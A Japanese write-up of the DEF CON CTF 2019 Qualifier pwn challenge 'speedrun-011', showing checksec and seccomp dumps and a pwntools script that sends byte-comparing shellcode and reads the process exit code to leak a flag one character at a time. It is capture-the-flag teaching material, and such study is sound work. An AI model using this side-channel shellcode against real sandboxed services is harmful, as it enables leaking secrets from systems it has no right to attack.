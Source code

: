 # [pwn 5pts] speedrun-011 - DEF CON CTF 2019 Qualifier
64ビットで全部有効です。
```
$ checksec -f speedrun-011
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes	0		2	speedrun-011
```
シェルコード問題です。seccompが有効です。
```
$ seccomp-tools dump ./speedrun-011
Can you drive with a blindfold?
Send me your vehicle
l
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x05 0x00 0x40000000  if (A >= 0x40000000) goto 0009
 0004: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0008
 0005: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0008
 0006: 0x15 0x01 0x00 0x0000000f  if (A == rt_sigreturn) goto 0008
 0007: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
```
なんかこれ見たらread, writeとかが許可されているように見えますが、実際は禁止されています。
無理では？

と、思ったのですが、最初にmallocした領域にflagを読み込んでいます。
なのでtime based attackでいけますね。
（あれ、これInterKosenCTFのsandboxと同じでは...？）
ただし、シェルコードにNULLバイトが入らないように注意しましょう。

まずはflagのアドレスを特定しなくてはいけないと思いきや、これも第一引数で渡されています。
なーんだ、思ったより簡単じゃん。

本番サーバーではこの攻撃が動くようなのですが、ローカルでは動かなかったので、ずるして終了コードを取得します。

```python
from pwn import *
import time
import subprocess

context.log_level = 'warning'

flag = ""
for i in range(1, 100):
    for c in range(ord(" "), ord("}")):
        shellcode = asm(
            """
            mov al, byte [rdi + {}]
            cmp al, {}
            jnz bye
            int3
            bye:
            ret
            """.format(i, c),
            arch='amd64'
        )
        if '\x00' in shellcode:
            print(disasm(shellcode, arch='amd64'))
        sock = process("./speedrun-011")
        sock.recvuntil("vehicle\n")
        sock.sendline(shellcode)
        while True:
            x = sock.poll()
            if x is not None:
                break
        sock.close()
        if x == -5:
            flag += chr(c)
            break
    else:
        print("...?")
        exit()
    print(flag)
```

めっちゃ時間かかるなこれ。
```
$ python solve.py 
O
O{
O{D
O{Du
O{Dum
O{Dumm
O{Dummy
```

本当は`OOO{Dummy}`にしたのですが、まぁ良いでしょう。

# 感想
もうシェルコードはいいから......ね？